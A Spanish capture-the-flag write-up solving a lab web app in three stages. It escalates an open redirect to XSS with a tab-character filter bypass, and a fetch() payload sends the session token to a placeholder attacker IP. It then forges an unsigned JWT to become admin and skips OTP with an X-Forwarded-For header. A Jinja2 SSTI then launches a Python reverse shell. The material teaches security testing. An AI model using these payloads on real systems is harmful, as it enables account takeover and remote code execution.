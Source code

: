 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder como administrador.

Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada.

![](img/disabledposting.png)

Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.

JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.

Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:

![](img/jwtdecoded.png)

Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.

Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.

![](img/jwtreturnssession.png)

Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.

![](img/signatureremoved.png)

Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.

![](img/modifiedidjwt.png)

Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

Si recargamos la página, comprobamos que hemos accedido como administrador.

![](img/loginasadmin.png)

</details>

## Etapa 3: Leer el archivo /flag

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es leer el archivo /flag, que contiene la flag final.

El panel de administración tiene la siguiente apariencia:

![](img/adminpanel.png)

Tenemos dos opciones: actualizar los datos del servidor SMTP y enviar un correo electrónico de prueba. El problema es que si intentamos usar cualquiera de las dos opciones, salta un segundo factor de autenticación, que nos pide un código OTP.

Ejemplo al intentar actualizar los datos del servidor SMTP:

![](img/verifyotp.png)

Existen casos en los que las aplicaciones confían en la cabecera "X-Forwarded-For". Esta cabecera fue creada para que los servidores web puedan saber la IP real de los usuarios que acceden a la aplicación a través de un proxy. En este caso, la aplicación confía en esta cabecera y no comprueba la IP real del usuario.

Si agregamos la cabecera "X-Forwarded-For" para que su valor sea la dirección IPv4 de loopback (127.0.0.1), la aplicación cree que el usuario está accediendo desde la misma máquina que el servidor, por lo que no se activa el segundo factor de autenticación.

La petición que se realiza al intentar actualizar los datos del servidor SMTP es la siguiente:

![](img/updatesmtporiginalrequest.png)

Al agregar la cabecera "X-Forwarded-For: 127.0.0.1", el servidor no comprueba el segundo factor de autenticación y autoriza la petición.

![](img/updatesmtpmodifiedrequest.png)

Podemos agregar una regla de "Match and Replace" en Burp Suite para que se agregue la cabecera "X-Forwarded-For" automáticamente en todas las peticiones, con la siguiente configuración:

* **Type:** Request header
* **Replace:** X-Forwarded-For: 127.0.0.1

![](img/addmatchreplacerule.png)

Vamos a modificar la dirección IP del servidor SMTP para que sea la del atacante.

![](img/smtpipmodified.png)

Con Python podemos crear un servidor SMTP que escuche en el puerto 25 y nos muestre los correos electrónicos que reciba. Para ello, ejecutamos el siguiente comando:

    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25

![](img/pythonsmtpserver.png)

Ahora, si enviamos un correo electrónico de prueba a cualquier dirección, lo recibimos en el servidor SMTP.

![](img/receiveemail.png)

La petición que se realiza al enviar un correo electrónico de prueba es la siguiente:

![](img/sendemailrequest.png)

La clave "message" llama la atención porque su valor contiene la variable {{session['username']}}, que es sustituido por el nombre del usuario que envía el correo electrónico. Esto recuerda a una vulnerabilidad de Server-Side Template Injection (SSTI), que permite ejecutar código en el servidor, en este caso, código Python.

Para confirmar que se trata de una vulnerabilidad de SSTI, lo primero es identificar el motor de plantillas que utiliza la aplicación, dado que cada uno tiene su propia sintaxis. 

El motor de plantillas más utilizado en Flask es Jinja2. Para comprobar si la aplicación está utilizando este motor de plantillas, podemos probar a enviar un correo electrónico de prueba con el siguiente contenido:

    {{config}}

![](img/config.png)

Y comprobar si la respuesta contiene información sobre la configuración de la aplicación. 

![](img/configreceived.png)

Funciona, por lo que podemos probar a extraer el contenido del archivo /flag, mediante el siguiente payload extraído de [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread):

    {{cycler.__init__.__globals__.os.popen('cat /flag').read()}}

![](img/messagetoolong1.png)

Desgraciadamente, el valor de la clave "message" es demasiado largo, por lo que el payload no es ejecutado.

Necesitamos un payload más corto, pero primero necesitamos conocer cuánto espacio tenemos disponible para el payload. Vamos a ir agregando caracteres "X" en "message" hasta que la petición devuelva un error.

Al enviar 45 caracteres "X", la petición funciona correctamente.

![](img/45x.png)

Al enviar 46 caracteres "X", la petición devuelve un error.

![](img/46x.png)

Podemos concluir que tenemos 50 caracteres disponibles para el payload.

El artículo [Exploiting Jinja SSTI with limited payload size](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/) ofrece una solución para saltar la restricción de tamaño de payload.

La técnica propuesta consiste es actualizar "config", que es un diccionario que contiene la configuración de la aplicación. Añadimos un elemento al diccionario llamado "a" con el comando que le pasemos por el parámetro GET "a" (valga la redundancia). 

De esta forma, no necesitamos incluir el comando en el campo "message", sino que lo pasamos por el parámetro GET, evadiendo así la restricción de tamaño.

En este caso, el comando es una reverse shell de Python 3.

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ATACANTE>",<PUERTO_ATACANTE>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

**Importante:** Modificar "IP_ATACANTE" y "PUERTO_ATACANTE" por la dirección IP y el puerto del atacante respectivamente. Seleccionamos el texto y presionamos "Ctrl+U" para que se codifique en formato URL.

Y el payload que vamos a utilizar es el siguiente:

    {{config.update(a=request.args.get('a'))}}

![](img/payload.png)

Nos ponemos a la escucha en el puerto especificado en el payload.

    nc -lvnp <PUERTO_ATACANTE>

![](img/nc.png)

Lanzamos os.popen(config.a) para que se ejecute el comando de la reverse shell, con el siguiente payload:

    {{lipsum.__globals__.os.popen(config.a)}}

Explicación del payload:
* **lipsum:** función que genera texto aleatorio, desde aquí podemos acceder a las variables globales.
* **\_\_globals\_\_:** diccionario que contiene las variables globales, incluyendo "os".
* **os:** módulo que contiene funciones para interactuar con el sistema operativo.
* **popen:** función que ejecuta un comando en el sistema operativo.

![](img/revshell.png)

Y obtenemos una reverse shell.

![](img/shell.png)

Leemos el contenido del archivo /flag.

![](img/flag.png)

</details>